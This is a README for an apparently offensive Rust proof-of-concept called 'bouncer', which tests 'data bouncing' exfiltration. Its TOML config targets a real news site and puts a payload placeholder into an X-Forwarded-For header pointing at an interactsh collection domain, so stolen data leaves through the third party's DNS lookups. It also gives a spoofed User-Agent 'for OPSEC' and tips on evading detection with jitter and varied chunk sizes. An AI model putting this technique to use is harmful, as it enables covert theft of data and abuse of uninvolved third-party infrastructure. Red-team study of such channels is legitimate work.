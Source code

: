 # bouncer
Simple rust program to test databouncing exfiltration.

## Usage
To use this prgram, first make a config file to set the required parameters needed, an example of this is the following config:
```toml
# Target host vulnerable to data bouncing
target_url = "https://newsweek.com"

# Headers to be used on the request
[headers]
# User Agent for OPSEC
User-Agent = "Mozilla/5.0 (X11; Linux x86_64; rv:138.0) Gecko/20100101 Firefox/138.0"
# Example of a header for bouncing
"X-Forwarded-For" = "{{PAYLOAD}}.interactshdomain.com"
```

After this just run the `make` command to build the program or run `make debug` to have logging enabled.

P.S: the data being exfiltrated is just a small string, in a real world you would also avoid delivering information chunks continously (witout jitter between requests) or the same size everytime, take this program just a Proof of Concept.
